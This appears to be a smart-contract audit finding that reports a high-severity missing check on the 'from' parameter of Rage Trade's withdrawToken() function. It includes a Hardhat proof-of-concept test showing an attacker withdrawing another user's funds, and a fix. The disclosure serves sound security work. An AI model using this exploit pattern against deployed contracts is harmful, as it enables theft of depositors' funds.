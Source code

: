 Nyx

high

# Attacker can steal funds

## Summary
Attacker can steal funds with withdrawToken() function.
## Vulnerability Detail
Missing validation on withdrawTokens from parameter can cause attackers to steal funds.
## Impact
Users who deposited dnGmxJuniorVault can lose their funds.
## Code Snippet
Code : 
https://github.com/sherlock-audit/2022-10-rage-trade/blob/main/dn-gmx-vaults/contracts/periphery/WithdrawPeriphery.sol#L113-L125
Test : 
```
it('NYX withdrawToken - attack', async () => {
    const { usdc, users, periphery, gmxVault, dnGmxJuniorVault, dnGmxSeniorVault } = await dnGmxJuniorVaultFixture();

    await dnGmxSeniorVault.connect(users[1]).deposit(parseUnits('100', 6), users[1].address);

    const amount = parseEther('100');
    const withdrawAmount = parseEther('20');

    await dnGmxJuniorVault.connect(users[0]).deposit(amount, users[0].address);
    await dnGmxJuniorVault.connect(users[0]).approve(periphery.address, constants.MaxUint256);

    console.log('user[0] balance', await dnGmxJuniorVault.balanceOf(users[0].address));
    const usdcBalBefore = await usdc.balanceOf(users[2].address);
    console.log('usdcBalBefore', usdcBalBefore.toString());

    const tx = periphery
      .connect(users[2])
      .withdrawToken(users[0].address, usdc.address, users[2].address, withdrawAmount);

    await expect(tx).to.emit(periphery, 'TokenWithdrawn');

    const usdcBalAfter = await usdc.balanceOf(users[2].address); // attacker balance
    console.log('usdcBalAfter', usdcBalAfter.toString());
    console.log('user[0] balance', await dnGmxJuniorVault.balanceOf(users[0].address)); // user balance
```
## Tool used

Manual Review

## Recommendation
from needs to be msg.sender.